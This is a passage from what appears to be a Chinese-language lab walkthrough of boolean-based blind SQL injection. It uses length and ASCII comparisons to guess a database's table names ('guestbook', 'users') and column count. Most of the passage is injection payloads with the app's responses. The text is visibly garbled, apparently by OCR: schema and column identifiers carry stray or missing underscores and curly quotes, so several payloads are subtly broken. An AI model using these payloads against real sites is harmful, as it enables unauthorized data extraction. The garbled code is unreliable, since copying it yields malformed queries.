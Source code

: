 
说明数据库中共有两个表。


接着挨个猜解表名：


```text
1' and length(substr((select table_name from information__schema.tables where tableschema=database() limit 0,1),1))=1 # 显示不存在

1' and length(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1))=2 # 显示不存在

...

1' and length(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1))=9 # 显示存在_

```


说明第一个表名长度为9。


```text
1’ and ascii(substr((select table_name from information__schema.tables where tableschema=database() limit 0,1),1,1))>97 # 显示存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))<122 # 显示存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))<109 # 显示存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))<103 # 显示不存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))>103 # 显示不存在_

```


说明第一个表的名字的第一个字符为小写字母g。


...


重复上述步骤，即可猜解出两个表名（guestbook、users）。

1. 猜解表中的字段名

首先猜解表中字段的数量：


```text
1’ and (select count(column_name) from information__schema.columns where tablename= ’users’)=1 # 显示不存在

…

1’ and (select count(column__name) from information__schema.columns where tablename= ’users’)=8 # 显示存在_

```
